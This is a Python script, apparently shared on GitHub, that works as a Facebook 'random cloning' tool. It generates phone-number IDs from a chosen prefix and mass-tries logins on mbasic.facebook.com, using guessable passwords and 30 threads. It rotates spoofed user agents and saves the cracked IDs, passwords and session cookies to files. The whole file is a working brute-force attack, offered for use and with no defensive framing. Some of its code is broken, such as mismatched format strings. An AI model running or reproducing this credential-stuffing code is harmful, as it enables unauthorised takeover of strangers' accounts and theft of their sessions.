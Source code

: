 # Rakib.bd
Random.Free
from bs4 import BeautifulSoup as sop 
 from concurrent.futures import ThreadPoolExecutor as tred 
 import os,sys,time,json,random,re,string,platform,base64,platform,uuid 
 import marshal 
 try: 
     import requests 
     from concurrent.futures import ThreadPoolExecutor as ThreadPool 
     import mechanize 
     from requests.exceptions import ConnectionError 
 except ModuleNotFoundError: 
     os.system('pip install mechanize requests futures==2 > /dev/null') 
     os.system('python Kashif.py') 
 from bs4 import BeautifulSoup 
 ugen = [] 
 A = '\x1b[1;97m'  
 B = '\x1b[1;96m'  
 C = '\x1b[1;91m'  
 D = '\x1b[1;92m' 
 M = '\033[1;31m' 
 H = '\033[1;32m' 
 N = '\x1b[1;37m'     
 E = '\x1b[1;93m'  
 F = '\x1b[1;94m' 
 G = '\x1b[1;95m' 
 P = '\033[1;37m' 
 RED = '\033[1;91m' 
 WHITE = '\033[1;97m' 
 GREEN = '\033[1;32m' # 
 YELLOW = '\033[1;33m' 
 BLUE = '\033[1;34m' 
 ORANGE = '\033[1;35m' 
 KB = '{ KB }' 
 for xd in range(10000): 
     a='Mozilla/5.0 (Linux; U; Android' 
     b=random.choice(['6','7','8','9','10','11','12']) 
     c=' en-us; GT-' 
     d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) 
     e=random.randrange(1, 999) 
     f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']) 
     g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/' 
     h=random.randrange(73,100) 
     i='0' 
     j=random.randrange(4200,4900) 
     k=random.randrange(40,150) 
     l='Mobile Safari/537.36' 
     uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}' 
     ugen.append(uaku2) 
 try: 
     os.system('curl https://www.facebook.com/profile.php?id=100000448332183') 
 except: 
     pass 
 sock=open('ua.html','r').read().splitlines() 
 def uaku(): 
     try: 
         ua=open('bbnew.txt','r').read().splitlines() 
         for ub in ua: 
             ugen.append(ub) 
     except: 
         a=requests.get('https://www.facebook.com/profile.php?id=100000448332183').text 
         ua=open('.user-agents.txt','w') 
         aa=re.findall('line">(.*?)<',str(a)) 
         for un in aa: 
             ua.write(un+'\n') 
         ua=open('.user-agents.txt','r').read().splitlines() 
 loop = 0 
 cps = [] 
 oks = [] 
 twf = [] 
  
 def clear(): 
     os.system('clear') 
     print(logo) 
 logo =f"""____________________ 
 AUTHOR    : Rakib islam
 FACEBOOK : Rakib islam
 VERSION    : 1.1 
                                    [rakib islam]
  
      _____                    _____                    _____                    _____                    _____          
         /\    \                  /\    \                  /\    \                  /\    \                  /\    \         
        /::\    \                /::\    \                /::\____\                /::\    \                /::\    \        
       /::::\    \              /::::\    \              /:::/    /                \:::\    \              /::::\    \       
      /::::::\    \            /::::::\    \            /:::/    /                  \:::\    \            /::::::\    \      
     /:::/\:::\    \          /:::/\:::\    \          /:::/    /                    \:::\    \          /:::/\:::\    \     
    /:::/__\:::\    \        /:::/__\:::\    \        /:::/____/                      \:::\    \        /:::/__\:::\    \    
   /::::\   \:::\    \      /::::\   \:::\    \      /::::\    \                      /::::\    \      /::::\   \:::\    \   
  /::::::\   \:::\    \    /::::::\   \:::\    \    /::::::\____\________    ____    /::::::\    \    /::::::\   \:::\    \  
 /:::/\:::\   \:::\____\  /:::/\:::\   \:::\    \  /:::/\:::::::::::\    \  /\   \  /:::/\:::\    \  /:::/\:::\   \:::\ ___\ 
/:::/  \:::\   \:::|    |/:::/  \:::\   \:::\____\/:::/  |:::::::::::\____\/::\   \/:::/  \:::\____\/:::/__\:::\   \:::|    |
\::/   |::::\  /:::|____|\::/    \:::\  /:::/    /\::/   |::|~~~|~~~~~     \:::\  /:::/    \::/    /\:::\   \:::\  /:::|____|
 \/____|:::::\/:::/    /  \/____/ \:::\/:::/    /  \/____|::|   |           \:::\/:::/    / \/____/  \:::\   \:::\/:::/    / 
       |:::::::::/    /            \::::::/    /         |::|   |            \::::::/    /            \:::\   \::::::/    /  
       |::|\::::/    /              \::::/    /          |::|   |             \::::/____/              \:::\   \::::/    /   
       |::| \::/____/               /:::/    /           |::|   |              \:::\    \               \:::\  /:::/    /    
       |::|  ~|                    /:::/    /            |::|   |               \:::\    \               \:::\/:::/    /     
       |::|   |                   /:::/    /             |::|   |                \:::\    \               \::::::/    /      
       \::|   |                  /:::/    /              \::|   |                 \:::\____\               \::::/    /       
        \:|   |                  \::/    /                \:|   |                  \::/    /                \::/____/        
         \|___|                   \/____/                  \|___|                   \/____/                  ~~              
                                                                                                                                #### 
  
  
  
  
 def linex(): 
     print(f'==========================================================') 
 def checks(oks,cps,twf): 
     if not len(oks) != 0: 
         pass 
     if len(cps) != 0: 
         print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mKB-OK.txt' % ( 
             H, P, str(len(oks)))) 
         print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mKB-CP.txt' % 
               (H, P, str(len(cps)))) 
         print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mKB-2F.txt' % 
               (H, P, str(len(twf)))) 
         input("\x1b[1;97mPRESE ENTER TO BACK xyz  ") 
         xyz() 
 loop = 0 
 cps = [] 
 oks = [] 
 twf = [] 
 def cek_apk(session,coki): 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS ðŸŽ®%s  '%(ORANGE)) 
     else: 
         print(f'\r {GREEN}[âˆš] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN)) 
         for i in range(len(game)): 
             print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N)) 
         #else: 
             #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N)) 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS ðŸŽ®%s'%(ORANGE)) 
     else: 
         print(f'\r ðŸŽ®  %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED)) 
         for i in range(len(game)): 
             print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N)) 
             print(f"{GREEN}[âˆš]---------------------------------------------------[âˆš]") 
     #____________# 
 def xyz(): 
     #os.system("play-audio WELCOME_TO_kb_BOOT_818.mp3") 
     os.getuid 
     os.system("clear");print(logo) 
     print('           \x1b[97m[\033[37;41m  M A I N   M E N U   \033[0;m] ') 
     print(f"") 
     print(f"[01] {WHITE}START RANDOM CLONING") 
     print(f"[00] {WHITE}EXIT PROGRAM ") 
     print(f"") 
     print(f"\033[1;91m========================================================") 
     Kashif = input("[âˆš] CHOOSE : ") 
     if Kashif in ["1","01"]: 
         Random() 
     elif Kashif in ["0","00"]: 
        exit() 
     else: 
         print('\033[1;31mINCORECT OPTION!\033[1;31m') 
         xyz() 
  
 #_____________# 
   
 #_____________________# 
  
 def Random(): 
     user=[] 
     os.getuid 
     os.geteuid 
     os.system("clear") 
     print(logo) 
     print(f"") 
     clear() 
     print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]") 
     print(f"") 
     linex() 
     print(f"        \x1b[97m[\033[95;42mEXAMPLE :ðŸ‘‡\033[0;m]") 
     print(f"") 
     print(' 0306 ,0300 ,0315 ,0333') 
     print(f" 0341 ,0342 ,0345 ,0349") 
     print(f" 0321 ,0316 ,0308 ,0309") 
     print(f"") 
     linex() 
     code = input(' PUT CODE : ') 
     os.system("clear") 
     print(logo) 
     print(f"") 
     print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]") 
     print(f"") 
     limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: ')) 
     for nmbr in range(limit): 
         nmp = ''.join(random.choice(string.digits) for _ in range(7)) 
         user.append(nmp) 
     with ThreadPool(max_workers=30) as yaari:     
         clear() 
         tl = str(len(user)) 
         print(f" {WHITE}TOTAL IDZ             : {RED}"+tl) 
         print(f" {WHITE}COUNTRY YOU CHOOSE    : PAKISTAN ") 
         print(f" {WHITE}NUMBER YOU PUT        : {RED}"+code) 
         print(f" {WHITE}PROCESS HAS BEEN STARTED") 
         print(f" {WHITE}BE PATIENT.......") 
         print(f" {WHITE}TO STOP PROCESS Ctrl + Z ") 
         print(f'===========================================================') 
         for love in user: 
             uid = code+love 
             pwx = [love] 
             yaari.submit(free,uid,pwx,tl) 
 def free(uid,pwx,tl): 
     global loop 
     global oks 
     global agents 
     try: 
         for ps in pwx: 
             bi = random.choice([A]) 
             session = requests.Session() 
             sys.stdout.write(f'\r\33[1;37m[BALIIXSABA] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))),  
             sys.stdout.flush() 
             pro = random.choice(ugen) 
             free_fb = session.get('https://mbasic.facebook.com').text 
             log_data = { 
                 "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1), 
             "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1), 
             "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1), 
             "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1), 
             "try_number":"0", 
             "unrecognized_tries":"0", 
             "email":uid, 
             "pass":ps, 
             "login":"Log In"} 
             header_freefb = {'authority':'mbasic.facebook.com', 
             'method': 'POST', 
             'scheme': 'https', 
             'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 
             'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9', 
             'cache-control': 'max-age=0', 
             'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"', 
             'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"', 
             'sec-fetch-dest': 'document', 
             'sec-fetch-mode': 'navigate', 
             'sec-fetch-site': 'none', 
             'sec-fetch-user': '?1', 
             'upgrade-insecure-requests': '1', 
             'user-agent':pro} 
             lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text 
             log_cookies=session.cookies.get_dict().keys() 
             if 'c_user' in log_cookies: 
                 coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) 
                 cid = coki[7:22] 
                 print('\r\033[1;32m[âˆš]---------------------[ALAMIN -OK]--------------------[âˆš]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\nCOOKIE   : '+coki+'\n[âˆš]---------------------------------------------------[âˆš]') 
                 cek_apk(session,coki) 
                 open('/sdcard/ALAMIN-OK.txt', 'a').write(cid+' | '+ps+'\n') 
                 oks.append(cid) 
                 break 
             elif 'checkpoint' in log_cookies: 
                 coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) 
                 cid=coki[24:39] 
                 Red = '\033[1;31m' 
                 print(f'\r{Red}[Ã—]--------------------[ALAMIN-Cp]---------------------[Ã—]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\n[Ã—]---------------------------------------------------[Ã—]\033[1;97m') 
                 open('/sdcard/ALAMIN-CP.txt', 'a').write(cid+' | '+ps+'\n') 
                 cps.append(cid) 
                 break 
             elif '/x/checkpoint' in log_cookies: 
                 coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()]) 
                 cid=coki[7:22] 
                 Red = '\033[1;31m' 
                 print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m') 
                 open('/sdcard/Jadugar-2F.txt', 'a').write(cid+' | '+ps+'\n') 
                 twf.append(cid) 
             else: 
                 continue 
         loop+=1 
         checks(oks,cps,twf) 
     except: 
         pass 
  
          
   
 if __name__ == '__main__': 
     xyz()

